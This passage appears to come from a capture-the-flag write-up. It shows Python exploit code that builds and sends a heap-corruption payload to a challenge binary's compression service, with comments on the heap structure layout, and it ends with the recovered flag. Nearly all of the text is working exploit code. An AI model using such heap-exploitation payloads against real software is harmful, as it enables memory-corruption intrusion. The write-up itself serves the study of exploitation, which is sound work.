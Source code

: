 ```python
    local_payload = ''
    local_payload += chr((3 << 6) | Q_count)
    return local_payload

"""
initial heap structure:
st_Compress 0x1B8
st_Compress->buf 0x8
st_FileManager 0x18
st_FileManager->file_ifstream 0x208
"""

payload += save_zeros_to_comp_Q(0x3f) * 0x10
payload += save_cached_qword_to_comp(0x34)
payload += cache_qword(0x33, 1)
payload += save_cached_qword_to_comp(0) * 0x38  # offset 0x1c0 == 0x38 * 0x8
payload += save_cached_qword_to_comp(0x33)
payload += cache_qword(0x34, 1)
payload += chr((0 << 6) | 0x3f)  # fail fm_to_comp_Q

assert(len(payload) <= 4096)
payload = p32(len(payload)) + payload  # size prefix for wrapper

p.send(payload)

p.interactive()
```

**FLAG: `YouNeedReallyGoodBugToBreakASLR!!`**